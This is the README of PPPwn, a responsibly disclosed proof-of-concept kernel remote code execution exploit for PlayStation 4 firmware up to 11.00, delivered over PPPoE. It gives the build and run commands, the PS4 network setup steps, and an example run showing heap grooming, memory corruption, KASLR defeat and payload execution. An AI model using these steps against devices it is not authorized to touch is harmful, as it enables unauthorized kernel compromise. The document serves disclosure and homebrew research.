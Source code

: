 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for [CVE-2006-4304](https://hackerone.com/reports/2177925) that was reported responsibly to PlayStation.

Supported versions are:
- FW 9.00
- FW 9.03 / 9.04
- FW 9.50 / 9.60
- FW 10.00 / 10.01
- FW 10.50 / 10.70 / 10.71
- FW 11.00
- more can be added (PRs are welcome)

The exploit only prints `PPPwned` on your PS4 as a proof-of-concept. In order to launch Mira or similar homebrew enablers, the `stage2.bin` payload needs to be adapted.

## Requirements
- A computer with an Ethernet port
  - USB adapter also works
- Ethernet cable
- Linux
  - You can use VirtualBox to create a Linux VM with `Bridged Adapter` as network adapter to use the ethernet port in the VM.
- Python3 and gcc installed

## Usage

On your computer, clone the repository:

```sh
git clone --recursive https://github.com/TheOfficialFloW/PPPwn
```

Change the directory to the cloned repository:

```sh
cd PPPwn
```

Install the requirements:

```sh
sudo pip install -r requirements.txt
```

Compile the payloads:

```sh
make -C stage1 FW=1100 clean && make -C stage1 FW=1100
make -C stage2 FW=1100 clean && make -C stage2 FW=1100
```

For other firmwares, e.g. FW 9.00, pass `FW=900`.

Run the exploit (see `ifconfig` for the correct interface):

```sh
sudo python3 pppwn.py --interface=enp0s3 --fw=1100
```

For other firmwares, e.g. FW 9.00, pass `--fw=900`.

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`
- Click `Test Internet Connection` to communicate with your computer

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. If the `pppwn.py` script is stuck waiting for a request/response, abort it and run it again on your computer, and then click on `Test Internet Connection` on your PS4.

If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4.

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```

## Notes for Mac Apple Silicon Users (arm64 / aarch64)
The code will not compile on Apple Silicon and requires AMD64 architecture. 
There is a workaround using docker which will build the bin files required.
Clone this repository to your mac system, then from the repo folder run `./build-macarm.sh`.This will build the binaries for PS4 FW 1100 and place the necessary files into the correct folders. To build the binaries for a different version, i.e. 900, run the command as such: `./build-macarm.sh 900`. Once built, copy this folder structure into the Linux VM and execute as instructed above. 
This has been tested using VMware Fusion 13.5.1, with the VM Guest as Ubuntu 24.04, and the host machine is MacOS 14.4.1
